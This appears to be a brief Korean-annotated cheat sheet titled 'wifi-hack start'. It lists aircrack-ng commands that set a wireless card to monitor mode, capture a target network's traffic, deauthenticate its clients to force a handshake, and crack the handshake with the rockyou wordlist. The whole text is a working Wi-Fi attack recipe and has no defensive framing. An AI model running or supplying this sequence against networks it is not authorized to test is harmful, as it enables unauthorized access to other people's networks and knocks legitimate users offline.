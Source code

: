 # network

**wifi-hack start**

## wlan0 > wlan0mon 옵션변경
airmon-ng start wlan0

## wlan0mon 으로 radio 스캔시작
airodump-ng wlan0mon

## 특정 bssid 취득후 캡쳐시작
airodump-ng --bssid 98:F1:99:50:xx:xx -c 4 -w hackwifi-xxx wlan0mon

## 별도 cmd로 세션시도
aireplay-ng -0 4 -a 98:F1:99:50:xx:xx wlan0mon

## 캡쳐된 파일의 사전파일과 매칭시도
aircrack-ng ./hack-aterm.cap-06.cap -w ./rockyou.txt 

## wlan0mon STOP
airmon-ng stop wlan0
